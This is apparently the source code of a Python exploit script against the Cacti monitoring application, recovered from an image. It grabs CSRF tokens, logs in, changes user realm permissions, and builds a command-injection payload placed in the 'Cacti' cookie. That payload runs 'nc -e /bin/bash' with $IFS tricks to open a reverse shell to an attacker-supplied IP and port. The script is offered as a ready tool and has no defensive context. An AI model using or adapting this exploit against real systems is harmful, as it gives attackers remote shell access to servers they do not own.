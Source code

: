 ```
url = sys.argv[1]
username = sys.argv[2]
password = sys.argv[3]
ip = sys.argv[4]
port = sys.argv[5]

def login(token):
    login_info = {
    "login_username": username,
    "login_password": password,
    "action": "login",
    "__csrf_magic": token
    }
    login_request = request.post(url+"/index.php", login_info)
    login_text = login_request.text
    if "Invalid User Name/Password Please Retype" in login_text:
        return False
    else:
        return True

def enable_guest(token):
    request_info = {
    "id": "3",
    "section25": "on",
    "section7": "on",
    "tab": "realms",
    "save_component_realm_perms": 1,
    "action": "save",
    "__csrf_magic": token
    }
    enable_request = request.post(url+"/user_admin.php?header=false", request_info)
    if enable_request:
        return True
    else:
        return False

def send_exploit():
    payload = ";nc${IFS}-e${IFS}/bin/bash${IFS}%s${IFS}%s" % (ip, port)
    cookies = {'Cacti': quote(payload)}
    requests.get(url+"/graph_realtime.php?action=init", cookies=cookies)

request = requests.session()
print("[+]Retrieving login CSRF token")
page = request.get(url+"/index.php")
html_content = page.text
soup = BeautifulSoup(html_content, "html5lib")
token = soup.findAll('input')[0].get("value")
if token:
    print("[+]Token Found : %s" % token)
    print("[+]Sending creds ..")
    login_status = login(token)
    if login_status:
        print("[+]Successfully LoggedIn")
        print("[+]Retrieving CSRF token ..")
        page = request.get(url+"/user_admin.php?action=user_edit&id=3&tab=realms")
        html_content = page.text
        soup = BeautifulSoup(html_content, "html5lib")
        token = soup.findAll('input')[1].get("value")
        if token:
            print("[+]Making some noise ..")
            guest_realtime = enable_guest(token)
            if guest_realtime:
                print("[+]Sending malicous request, check your nc ;)")
```